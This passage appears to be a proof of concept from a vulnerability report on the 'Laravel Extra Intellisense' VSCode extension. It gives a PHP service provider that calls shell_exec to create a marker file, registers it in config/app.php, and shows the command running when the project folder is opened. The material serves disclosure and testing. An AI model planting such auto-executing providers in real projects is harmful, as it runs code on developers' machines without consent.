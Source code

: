        namespace App\Providers;

        use Illuminate\Support\ServiceProvider;

        class PwnedServiceProvider extends ServiceProvider
        {
            public function register(): void
            {
                //
            }

            public function boot(): void
            {
                // Malicious code to execute a system command
                shell_exec('touch /tmp/laravel_extra_intellisense_pwned');
            }
        }
        ```
        - Register the `PwnedServiceProvider` in `config/app.php` by adding it to the `providers` array:
        ```php
        'providers' => [
            // ... other providers
            App\Providers\PwnedServiceProvider::class,
        ],
        ```
    2. **Open Malicious Project in VSCode:**
        - Open the `malicious-project-rce` folder in Visual Studio Code with the "Laravel Extra Intellisense" extension installed and enabled.
    3. **Verify RCE:**
        - After opening the project, wait briefly for the extension to initialize and collect data.
        - Open a terminal and check for the file `/tmp/laravel_extra_intellisense_pwned` using `ls -l /tmp/laravel_extra_intellisense_pwned`.
    4. **Expected Result:** If the file `/tmp/laravel_extra_intellisense_pwned` exists, it confirms that the `shell_exec` command within the malicious Service Provider was executed when the extension initialized, demonstrating Remote Code Execution due to the Service Provider backdoor vulnerability.
